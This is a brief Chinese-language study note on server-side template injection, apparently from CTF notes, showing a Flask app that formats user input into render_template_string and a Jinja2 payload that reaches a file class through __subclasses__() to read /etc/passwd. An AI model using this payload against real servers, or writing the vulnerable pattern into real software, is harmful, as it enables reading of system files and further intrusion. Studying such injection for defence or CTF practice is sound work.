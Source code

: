# 模板注入

## 模板注入

## !/usr/bin/env python3

```text
from flask import Flask, request, abort, render_template_string
import os.path

app = Flask(__name__)

@app.route('/', methods=['GET'])
def index():
    name = request.args.get('name')
    if name is not None:
        return render_template_string(open('templates/hello.html').read().format(name=name))

    return render_template_string(open('templates/index.html').read())

if __name__ == "__main__":
    app.run(host="0.0.0.0")
```

`{{''.__class__.__base__.__subclasses__()[40]('/etc/passwd', 'r').read()}}`

随便一个类,**base**找到基类，然后subclasses即可看到这个pyhton里面有哪些类，选取第四十个是**file**，然后即可初始化一个文件，并且读

